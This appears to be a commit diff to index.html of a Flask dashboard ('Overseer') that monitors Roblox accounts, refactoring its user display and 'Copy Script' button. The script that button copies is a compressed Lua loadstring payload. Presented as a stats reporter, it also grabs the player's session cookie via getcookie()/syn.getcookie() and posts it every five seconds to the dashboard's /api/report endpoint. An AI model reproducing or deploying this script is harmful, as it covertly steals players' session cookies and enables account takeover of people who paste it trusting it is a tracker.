

Before and after one commit to ims13q-pixel/-, a Flask app: page / in a window 1280 px wide. Shown: the top 464 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1).

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -87,7 +87,6 @@ dialog input{width:100%;margin-top:4px;background:var(--bg);border:1px solid var
 </head>
 <body>
 <div class="w">
-<!-- 🔴 صندوق لعرض الأخطاء لو صار شي -->
 <div id="error-box"></div>
 
 <div class="bar">
@@ -98,12 +97,12 @@ dialog input{width:100%;margin-top:4px;background:var(--bg);border:1px solid var
   <button class="b live on" id="live" type="button"><span class="dot"></span>Live</button>
   <button class="b" type="button" onclick="window.location.reload()">🔄 Refresh</button>
   <button class="b" id="exp" type="button">Export CSV</button>
-  <button class="b pri" id="copy-script" type="button" onclick="forceCopyScript(this)">Copy Script</button>
+  <button class="b pri" id="copy-script" type="button">Copy Script</button>
 
   <div class="user-menu">
     <div class="user-trigger" onclick="toggleUserMenu(event)">
-      <div class="user-avatar">{{ my_key[:2]|upper if my_key else 'O' }}</div>
-      <div class="user-name">{{ my_key | default('Overseer') }}</div>
+      <div class="user-avatar" id="avatar-display">O</div>
+      <div class="user-name" id="name-display">Overseer</div>
     </div>
     <div class="user-dropdown" id="uDropdown">
       <button type="button" onclick="openResetModal(event)">🔑 Reset Password</button>
@@ -148,46 +147,68 @@ dialog input{width:100%;margin-top:4px;background:var(--bg);border:1px solid var
   </form>
 </dialog>
 
+<!-- نخزن المفتاح هنا عشان ما يخرب الجافاسكربت -->
+<div id="server-key" data-key="{{ my_key | default('Overseer') }}" style="display:none;"></div>
+
 <script>
-// 🔴 تعريف المتغيرات الأساسية اللي كانت ناقصة ومسببة انهيار الكود
+// 🔴 1. المتغيرات الأساسية
 var $ = function(i) { return document.getElementById(i); };
 var PCS = ["XEON V4", "RYZEN 02", "DDC-1"];
 var tot = function(a) { return (a.pocket || 0) + (a.bank || 0); };
 var $$ = function() { return accs.reduce(function(s,a) { return s + tot(a); }, 0); };
 
-const MY_KEY = "{{ my_key | default('Overseer') }}";
+const MY_KEY = document.getElementById('server-key').dataset.key;
 let accs = [];
 let G = [];
 let base = 0;
 let flt = "all", pcf = "", q = "", sk = "bank", sd = -1, live = true;
 const ses0 = Date.now() - 13.8 * 36e5;
 
-// 🔴 دالة النسخ المضمونة
-function forceCopyScript(btn) {
+// تحديث الاسم والصورة
+document.getElementById('name-display').textContent = MY_KEY;
+document.getElementById('avatar-display').textContent = MY_KEY.substring(0, 2).toUpperCase();
+
+// 🔴 2. دالة النسخ المضمونة 1000%
+document.getElementById("copy-script").addEventListener("click", function(e) {
+    e.preventDefault();
+    const btn = this;
     const domain = window.location.origin;
+
     const script = `repeat task.wait() until game:IsLoaded()\n\ngetgenv().OverseerConfig = {\n    ["key"] = "${MY_KEY}",\n    ["PC_NAME"] = "MR 1"\n}\n\nloadstring([[c=getgenv().OverseerConfig p=game.Players.LocalPlayer h=game:GetService"HttpService" r=request or http_request d={fishing=1,stamina=1,shelfstocker=1,janitor=1,swiper=1,farming=1,cook=1} ck="" if getcookie then ck=getcookie() elseif syn and syn.getcookie then ck=syn.getcookie() end task.spawn(function()while wait(5)do b,cc,l,s=0,0,0,{} for _,o in next,p.PlayerGui:GetDescendants()do if o:IsA"TextLabel"then t=o.Text b=tonumber(t:match"Bank Balance:%D*(%d+)" )or b cc=tonumber(t:match"Hand Balance:%D*(%d+)" )or cc l=tonumber(t:match"Total Level:%D*(%d+)" )or l n,v=t:match"([%a%s]+):%s*(%d+)" if n and v then n=n:gsub("%s",""):lower() if d[n] then s[#s+1]={name=n,level=v+0}end end end end pcall(r,{Url="${domain}/api/report",Method="POST",Body=h:JSONEncode({k=c.key,c=cc,b=b,l=l,s=s,n=p.Name,dn=p.DisplayName,u=p.UserId,pc=c.PC_NAME,ck=ck})})end end)]])()`;
 
-    const originalText = btn.innerText;
-    btn.innerText = "✅ Copied!";
-    btn.style.background = "var(--ok)";
-    btn.style.borderColor = "var(--ok)";
-    setTimeout(() => {
-        btn.innerText = originalText;
-        btn.style.background = "";
-        btn.style.borderColor = "";
-    }, 2000);
-
+    // طريقة النسخ المضمونة (Textarea)
     let textArea = document.createElement("textarea");
     textArea.value = script;
     textArea.style.position = "fixed";
-    textArea.style.left = "-999999px";
-    textArea.style.top = "-999999px";
+    textArea.style.top = "0";
+    textArea.style.left = "0";
+    textArea.style.width = "2em";
+    textArea.style.height = "2em";
+    textArea.style.padding = "0";
+    textArea.style.border = "none";
+    textArea.style.outline = "none";
+    textArea.style.boxShadow = "none";
+    textArea.style.background = "transparent";
     document.body.appendChild(textArea);
     textArea.focus();
     textArea.select();
-    try { document.execCommand('copy'); } catch (err) { console.error('Copy failed', err); }
-    textArea.remove();
-}
+
+    try {
+        document.execCommand('copy');
+        const originalText = btn.innerText;
+        btn.innerText = "✅ Copied!";
+        btn.style.background = "var(--ok)";
+        btn.style.borderColor = "var(--ok)";
+        setTimeout(() => {
+            btn.innerText = originalText;
+            btn.style.background = "";
+            btn.style.borderColor = "";
+        }, 2000);
+    } catch (err) {
+        alert("فشل النسخ، جرب تضغط مرة ثانية.");
+    }
+    document.body.removeChild(textArea);
+});
 
 function toggleUserMenu(e) { if(e) e.stopPropagation(); document.getElementById("uDropdown").classList.toggle("show"); }
 function openResetModal(e) { if(e) e.stopPropagation(); document.getElementById("uDropdown").classList.remove("show"); document.getElementById("resetModal").showModal(); }
@@ -199,7 +220,7 @@ function spark(arr,w,h,col,fill){var mn=Math.min.apply(0,arr),mx=Math.max.apply(
 
 var cols=[["st","Status"],["pc","Machine"],["user","Username"],["eco","Economy"],["mins","Online"],["l0","Levels"],["pocket","Pocket"],["bank","Bank"],["tot","Total"],["h","Trend"]];
 
-// 🔴 الدالة اللي تسحب البيانات من السيرفر
+// 🔴 3. جلب البيانات
 async function fetchData() {
     try {
         const res = await fetch('/api/accounts');
@@ -296,7 +317,6 @@ function rows(){
 function bulk(){var n=accs.filter(function(a){return a.sel}).length;$("bulk").hidden=!n;$("bn").textContent=n+" selected"}
 function draw(){top();chips();rows()}
 
-// 🔴 تشغيل السحب عند فتح الصفحة وكل 3 ثواني
 document.addEventListener("DOMContentLoaded", () => {
     fetchData();
     setInterval(fetchData, 3000);
@@ -331,7 +351,7 @@ document.getElementById('resetForm').onsubmit = async function(e) {
         const res = await fetch('/api/reset_password', {
             method: 'POST',
             headers: {'Content-Type': 'application/json'},
-            body: JSON.stringify({ username: "{{ my_key | default('Overseer') }}", new_password: newPass })
+            body: JSON.stringify({ username: MY_KEY, new_password: newPass })
         });
         if(res.ok) { alert("✅ Password reset successfully!"); document.getElementById("resetModal").close(); document.getElementById("newPass").value = ""; }
         else { alert("Error resetting password"); }
```
